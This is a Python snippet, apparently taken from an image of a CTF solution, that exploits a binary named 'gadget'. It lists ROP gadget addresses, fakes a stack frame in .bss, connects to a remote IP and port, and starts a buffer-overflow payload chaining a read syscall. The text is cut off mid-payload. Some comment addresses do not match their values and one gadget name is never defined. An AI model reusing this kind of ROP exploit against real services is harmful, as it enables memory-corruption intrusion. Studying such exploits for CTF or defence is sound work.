 ```python
poprsi_1_jmprax = 0x0000000000402be2
# : pop rsi; pop r15; pop rbp; ret;
poprsi_2 = 0x0000000000401732

# : mov rdx, r12; call r14;
movrdx_callr14 = 0x0000000000402c07
# : pop r12; pop r14; pop r15; pop rbp; ret;
popr12_popr14_2 = 0x000000000040172f

# : pop rax; ret;
poprax = 0x0000000000401001
# : pop rbp; ret;
poprbp_ret = 0x0000000000401102
# : syscall; ret;
syscall_ret = 0x0000000000408865
# : leave; mov qword ptr [rdi + rdx - 0x2f], rax; mov qword ptr [rdi + rdx - 0x27], rax; mov rax, rdi; ret; 
leave = 0x0000000000403be5
# : leave; mov dword ptr [rbp - 0x40], eax; mov eax, ecx; add rsp, 0x40; pop rbp; ret; 
leave2 = 0x0000000000401224
# : ret; 
ret = 0x0000000000401002

# : int 0x80; ret; 
int80 = 0x00000000004011f3
# .text:retfq
retfq = 0x00000000004011EC

# 0x0000000000402cf5: pop rbx; pop r14; pop r15; pop rbp; ret; 
poprbx_popr14_2 = 0x0000000000403072

# 0x000000000040115b: pop rcx; ret;
poprcx = 0x000000000040117b

#  mov bl, [rsi+rax];mov rdi, rbx;push r14;retn; 
movrdi = 0x00000000004011BE

# : pop r14; pop r15; pop rbp; ret;
popr14_2 = 0x0000000000401731
# 000000000040119A: jmp $
loop = 0x00000000004011BA

bss = 0x00000000040D160
ptr = bss 
fake_rbp = bss
buf = fake_rbp + 0x8

alarm = 0x000000000401150

def exp(idx):
    #cn = process('./gadget')
    cn = remote("81.69.0.47",  2102)

    payload = flat(b'a' * 0x30, 0, 
            # read(0, buf, 0x200)
            poprdi_jmprax, 0, 
            poprsi_1_jmprax, ptr, 0, 
            popr12_popr14_2, 0x300, poprbp_ret, 0, 0, 
            movrdx_callr14, 
            poprax, 0, 
            syscall_ret, 
            # leave stack->fake_rbp(in bss)
            # poprdi_poprbp, ptr, fake_rbp, 
```